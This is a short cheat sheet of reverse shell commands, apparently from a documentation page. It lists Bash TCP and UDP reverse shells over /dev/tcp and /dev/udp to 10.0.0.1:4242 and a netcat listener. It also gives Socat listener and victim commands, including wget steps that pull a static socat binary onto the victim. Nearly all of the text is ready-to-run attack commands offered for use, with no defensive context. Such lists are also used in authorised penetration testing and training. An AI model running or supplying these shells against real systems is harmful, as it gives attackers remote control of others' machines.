 ```yaml
---
icon: arrow-up-arrow-down
---
```


# Reverse Shell Cheat Sheet

***

## **Reverse Shell Cheatsheet – Full Version**

***

### **1. Bash Reverse Shells**

#### TCP

```bash
bash -i >& /dev/tcp/10.0.0.1/4242 0>&1

0<&196;exec 196<>/dev/tcp/10.0.0.1/4242; sh <&196 >&196 2>&196

/bin/bash -l > /dev/tcp/10.0.0.1/4242 0<&1 2>&1
```

#### UDP

```bash
# Victim
sh -i >& /dev/udp/10.0.0.1/4242 0>&1

# Listener
nc -u -lvp 4242
```

**Tip:** Check other shells: `sh`, `ash`, `bsh`, `csh`, `ksh`, `zsh`, `pdksh`, `tcsh`, `bash`.

***

### **2. Socat**

```bash
# Listener on attacker
user@attack$ socat file:`tty`,raw,echo=0 TCP-L:4242

# Victim
user@victim$ /tmp/socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.0.0.1:4242

# Download static binary on victim (Linux)
user@victim$ wget -q https://github.com/andrew-d/static-binaries/raw/master/binaries/linux/x86_64/socat -O /tmp/socat
user@victim$ chmod +x /tmp/socat
user@victim$ /tmp/socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.0.0.1:4242
```
